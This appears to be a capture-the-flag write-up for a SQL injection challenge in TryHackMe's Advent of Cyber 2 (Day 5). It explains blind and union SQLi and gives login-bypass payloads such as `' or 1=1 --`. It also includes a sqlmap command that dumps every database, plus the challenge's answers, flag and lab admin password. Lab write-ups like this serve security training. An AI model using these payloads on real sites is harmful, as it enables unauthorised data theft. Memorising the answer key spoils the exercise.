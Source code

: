 # Day 5 - Someone stole Santa's gift list!

**Date:** 05, December, 2020

**Author:** Dhilip Sanjay S

---
## Fundamentals
- SQLi
1. Blind SQLi
    - Developers mitigate SQL Injection by restricting an application from displaying any error.
    - You can cause some observable changes using SLEEP(), SUBSTR() function, etc.
    - Error = 'No', No Error = 'Yes'

2. Union SQLi
    - Used for fast database enumeration
    - 3 steps:
        - Finding the number of columns: `ORDER BY/ UNION SELECT`
        - Checking if the columns are suitable: Replace with string in `UNION SELECT`
        - Attack and get some interesting data.

- Use [SQLMAP](https://github.com/sqlmapproject/sqlmap)
---
## Solutions
### Without using directory brute forcing, what's Santa's secret login panel?
- **Answer:** /santapanel
---

### Visit Santa's secret login panel and bypass the login using SQLi
- **Payload:** `abc' or 1=1 --`
- Alternatively, run **SQLMAP (1.2.4)** command:
```bash
sqlmap -r request-file --tamper=space2comment --dump-all
```
--- 

### How many entries are there in the gift database?
- **Answer:** 22
- **Steps to reproduce:** 
    - SQLMAP show all the entries in the table or use the payload below
    - **Payload:** `hi' or 1=1 --`
---

### What did Paul ask for?
- **Answer:** Github Ownership
- Check the table.
---

### What is the flag?
- **Answer:** thmfox{All_I_Want_for_Christmas_Is_You}
---

## What is admin's password?
- **Answer:** EhCNSWzzFP6sc7gB
---

[Back to Advent of Cyber 2](/Advent%20of%20Cyber%202) 